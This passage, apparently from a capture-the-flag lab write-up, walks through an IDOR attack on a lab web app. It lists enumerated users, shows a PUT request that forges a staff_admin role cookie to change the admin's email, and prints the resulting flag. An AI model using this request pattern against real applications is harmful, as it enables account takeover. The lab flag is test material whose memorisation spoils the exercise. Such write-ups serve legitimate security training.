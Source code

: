 ```
Name: Augusta Edwardson
Email: a_edwardson@employees.htb
----------------------------------------
[+] User 10:
UUID: bfd92386a1b48076792e68b596846499
Role: staff_admin
Name: admin
Email: admin@employees.htb
----------------------------------------
```

We found that the `uid=10` equals to the admin user, now, we can proceed to change the email to:

```
flag@idor.htb
```

We can do it by modifying the request in the following way:

```http
PUT /profile/api.php/profile/10 HTTP/1.1

Host: 94.237.50.156:34303

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: http://94.237.50.156:34303/profile/index.php

Content-type: application/json

Content-Length: 198

Origin: http://94.237.50.156:34303

Connection: keep-alive

Cookie: role=staff_admin

Priority: u=0



{"uid":10,"uuid":"bfd92386a1b48076792e68b596846499","role":"staff_admin","full_name":"admin","email":"flag@idor.htb","about":"A Release is like a boat. 80% of the holes plugged is not good enough."}
```

If we check the response, we get this:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217165646.png)

Now, if we check our edit profile:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217165720.png)

We got our flag:

```
HTB{1_4m_4n_1d0r_m4573r}
```